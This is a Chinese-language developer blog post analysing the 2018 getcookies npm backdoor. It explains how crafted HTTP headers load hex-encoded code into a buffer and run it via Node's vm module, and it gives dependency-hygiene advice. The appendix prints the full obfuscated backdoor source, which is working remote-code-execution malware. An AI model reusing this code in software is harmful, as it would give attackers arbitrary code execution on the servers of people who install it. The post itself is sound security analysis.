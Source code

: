 ```yaml
---
title: npm模块别乱下载，说不好就出事了
tags: node
categories:
  - 开发
  - node
thumb_img: hack.jpg
date: 2018-05-08 18:08:38
---
```



如果你和我们一样，npm install xxx用的很舒服，可能你的项目会遇到重大的危险。
先来看看一篇别人家的文章——[细思极恐：后门代码被隐藏在npm模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)

为了节省时间，[点击问题讨论地址，直接看看别人怎么说的](https://news.ycombinator.com/item?id=16975025)
{% asset_img blog.png %}

{% asset_img emoji.png %}
可能你看了那篇文章也不太清除发生了什么，那就请看下面

## 问题描述
### 哪些人会出现这样的问题？
直接or间接使用getcookies的人。

比如：你正在使用的Node框架是express，并且通过express-cookies处理cookie功能。那它其中就引用了getcookies。

### 问题有多严重？
getcookies会通过header注入代码，然后在你服务器‘任意遨游’，获取你服务器配置信息、监控你请求、让你宕个机...

### 它是怎么个原理
1. inject 自定义的Header,获取到req.headers
````
req.headers['gfeffh11i'] = 111;
req.headers['gabcdh22i'] = 222;
req.headers['gfaffh33i'] = 333;
````

2. 在请求头中寻找符合**/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi**规则的信息
````
...
// g+hex(2)+h+hex(1)+i
req.headers['gfaffh22i'] = 222;
...
// 以上header将在这个regex命中，并且通过replace执行多次。
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // o=gabcdh00i，p=abcd，v=00
    // 转成hex字符
    p = Buffer.from(p, 'hex').readUInt16LE(0);//52651
    switch (p) {
        ...
    }
})
````

3. 判断注入非法的信息，完成：初始化代码执行环境-->将问题代码添加至内存中-->调用vm执行问题代码
    注释信息，说明了哪些header会被switch命中
    {% asset_img code.png getcookies %}

4. script脚本如何在vm执行（写了个Demo模拟）
````js
// 模拟header中数据的获取，存入内存的过程(default中的逻辑)
function getHexBufer(scriptFn) {
    var result = '';
    for (var i = 0; i < scriptFn.length; i++) {
        // -->ascii-->16hex
        result = result + parseInt(scriptFn[i].charCodeAt(), 10).toString(16);
    }
    // result:2866756e6374696f6e202829207b636f6e736f6c652e6c6f672827636f6d696e6727293b7d292829
    // 16hex的buffer
    // <Buffer 28 66 75 6e 63 74 69 6f 6e 20 28 29 20 7b 63 6f 6e 73 6f 6c 65 2e 6c 6f 67 28 27 63 6f 6d 69 6e 67 27 29 3b 7d 29 28 29>
    return Buffer.from(String(result), 'hex')
}
// 编译脚本
var c = getHexBufer(`(function () {console.log('coming');})()`).toString();
// 通过vm执行脚本
require('vm')['runInThisContext'](c); //输出coming
````

### 你可能需要准备下其他知识
1. [Buffer.from 和 Buffer.alloc 干什么的](http://nodejs.cn/doc/node/buffer.html#buffer_buffer_from_buffer_alloc_and_buffer_allocunsafe)
{% asset_img buffer-1.png Buffer.from&Buffer.alloc %}

2. [readUInt16LE 什么意思]()
如果你不清楚LE、BE。可以再看看这篇：[readInt16BE 和 readInt16LE的区别](http://127.0.0.1:4000/2018/05/08/node-buffer-endian/)

3. \x76\x6d 是什么格式？
是16进制。
然后就能明白源代码中：
````
require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74']
// require('vm')['runInThisContext']
````

    对应的再补充一些进制转换api
    
    ````js
    var test10 = 43981;
    // 10 --> 2
    var test2 = test10.toString(2);//1010101111001101
    // 2 --> 10
    var backTest10 = parseInt(test2, 2);//43981
    // 10 -> 16
    var testHex = parseInt(test2, 2).toString(16);//abcd
    ````

4. [什么是vm？](https://nodejs.org/api/vm.html#vm_vm_runinthiscontext_code_options)
执行script，同时源码中还用了高阶Fn，提供了module.exports, require, req, res, next等信息。我这些都拿到了，我还有什么不能做？
 
## 现状
npm官方已经做了处理，你已经下不到这两个包了
````
Error: [getcookies@*] GET https://registry.npm.taobao.org/getcookies/latest response 404 status
Error: [express-cookies@*] GET https://registry.npm.taobao.org/express-cookies/latest response 404 status
````

## 总结
1. 不要着急升级模块，避免已稳定的模块出现问题
2. 下载使用**优质**，热门模块。用的人多，这样出问题，社区会有解决方案，你不是一个人战斗。
3. 检查下项目中的node_modules，奇奇怪怪的能不用就别用了。
4. 提升自己能力，看的懂大神们写的代码才能hold全场，慢慢积累，但别放弃任何学习源码的机会，比如这个getcookie现在就下载不到了。

## 附录
getcookie源码
````
/* eslint-env es6 */
'use strict';

var assert = require('assert');

let harness = (req, res, callback, next) => {
    try {
        assert.equal(typeof callback, 'function');
    } catch (E) {
        return callback(E);
    }

    try {
        module.exports.log = module.exports.log || Buffer.alloc(0xffff);
        JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
            p = Buffer.from(p, 'hex').readUInt16LE(0);
            switch (p) {
                case 0xfffe:
                    module.exports.log = Buffer.alloc(0xffff);
                    return;
                case 0xfffa:
                    return setTimeout(() => {
                        let c = module.exports.log.toString().replace(/\x00*$/, '');
                        module.exports.log = Buffer.alloc(0xffff);
                        if (c.indexOf('\x00') < 0) {
                            require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                        }
                        next();
                    }, 1000);
                default:
                    v = Buffer.from(v, 'hex');
                    for (let i = 0; i < v.length; i++) {
                        module.exports.log[p + i] = v[i];
                    }
            }
        });
    } catch (E) {}

    next();
};

module.exports.assert = (req, res, callback, next) => {
    harness(req, res, callback, next);
};
````